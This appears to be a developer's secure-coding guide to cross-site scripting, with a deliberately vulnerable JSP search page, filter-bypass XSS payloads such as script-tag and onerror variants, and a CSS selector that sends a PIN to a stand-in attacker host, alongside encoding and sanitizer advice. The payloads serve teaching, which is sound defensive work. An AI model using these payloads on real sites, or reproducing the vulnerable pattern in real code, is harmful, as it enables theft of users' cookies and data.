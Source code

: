 # Cross Site Scripting (XSS)

Data (from untrusted source) gets into the application, then this data is later displayed in the website without being _properly_ validated/sanitized/escaped.

## Example

```jsp
<%-- search.jsp --%>
<% String searchParam = request.getParameter("searchParam"); %>
<h2>Search results for <%= searchParam %></h2>
```

Imagine calling it via `http://whatever/search.jsp?searchParam=<script>alert(document.cookies)</script>`

**What to do?**

- *Remove the `<script>` tags!* - `<scrIpt>` works as well
- Use regexp like `/[sS][cC][rR][iI][pP][tT]/` - `<img src=javascript:alert(1)>`
- *remove `javascript:`* - `<img src=jav&#x41;script:alert(1)>`
- *HTML decode, THEN remove* - `<img src=nonexistent onerror=alert(1)>`

... far from easy.

## Prevention

### NEVER insert untrusted data

In a script:

`<script>... NOT HERE...</script>`

Inside a HTML comment:

`<!-- ... NOT HERE ... -->`

As a tag or attribute name:

`<NOTHERE></NOTHERE>`
`<div NOTHERE=something></div>`

Directly into CSS:

`<style>... NOT HERE ...</style>`

These places are almost impossible to escape/sanitize properly. Do not even try.

### ... exceptions

Since sometimes we definitely need data that is coming from untrusted source.

#### HTML context

HTML encode before inserting something into HTML element context

```html
<div>
  ... HTMLENCODED UNTRUSTED DATA HERE ...
</div>
```

It might be sufficient to encode the following characters, to prevent switching into other execution contexts:

- `&` => `&amp;`
- `<` => `&lt;`
- `>` => `&gt;`
- `"` => `&quot;`
- `'` => `&#x27;`

#### HTML Attribute context

```html
<div attr="... ATTRIBUTE ENCODED UNTRUSTED DATA HERE ...">content</div>
```

- Always quote attributes with `"` or `'`. Quoted attributes can be broken only by the corresponding quote, not quoted attributes can be broken out in may ways (with `[space]`, `/`, `|`, ...)
- Encode the corresponding quote in the data
  - `"` => `&#x22;`
  - `'` => `&#x27;`
- Some attributes are capable of executing their content, they should **never** include untrusted data:
  - `href` - `href="javascript:alert(1)"`
  - all event handlers (`onclick`, `onerror`, `onload`, ...)
  - `src` - obviously
  - `style` - CSS context, dangerous

#### JavaScript data

Do not insert untrusted data into JavaScript context.

**BAD** example (from FD):

```jsp
<script>
  window.browseData = <fd:ToJSON value="${browsePotato}"/>; // well, it's not even JSON...
</script>
```

In this example, `browsePotato` contains some URL parameters, like `searchParam`, `grpId`, etc.

This is a proper JS object: `{ searchParam: "</script><script>alert(1)</script>" }`, and is completely OK in a JS file. But in an HTML, the HTML parser breaks the `<script>` tag at the first `</script>`...

Instead, put the HTML escaped JSON (really) data inside of an HTML tag, then read it via JS, and decode it:

```jsp
<script type="application/json-htmlencoded" id="browsePotato">
  <fd:ToEscapedJSON value="${browsePotato}" />
</script>
<script>
  const dataEl = document.getElementById("browsePotato");
  window.browseData = JSON.parse(dataEl.textContent); // `textContent` is unescaped
</script>
```

#### CSS

Do not insert data into CSS context. It's hard to be safe. Use CSS variables, that can be set via JS.

```CSS
/* obvious */
.whatever {
  background-url: "javascript:alert(1)";
}

/* not that obvious */
input.pincode[value="1234"] {
  background: url(https://h4x0r.org/log?pin=1234);
}

/* ... */
```

#### URL parameters

URLencode everything that goes into URL parameter.

```jsp
<a href="/search.jsp?page=2&searchParam=<%= URLENCODE_THIS %>">Search page 2</a>
```

(It's basically attribute context, but easier to handle.)

#### Need to output untrusted HTML

Use a well maintained sanitizer library, update it regularly.

Examples:

- Java - OWASP Java HTML Sanitizer
- JS - DOMPurify

Don't try to write your own sanitizer, you'll fail.

### Extra protection

- use `HTTPOnly` option for cookies that are not needed by JS
  - https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#restrict_access_to_cookies
- use proper `CSP` header, it can prevent XSS by disabling inline JavaScripts
  - https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy
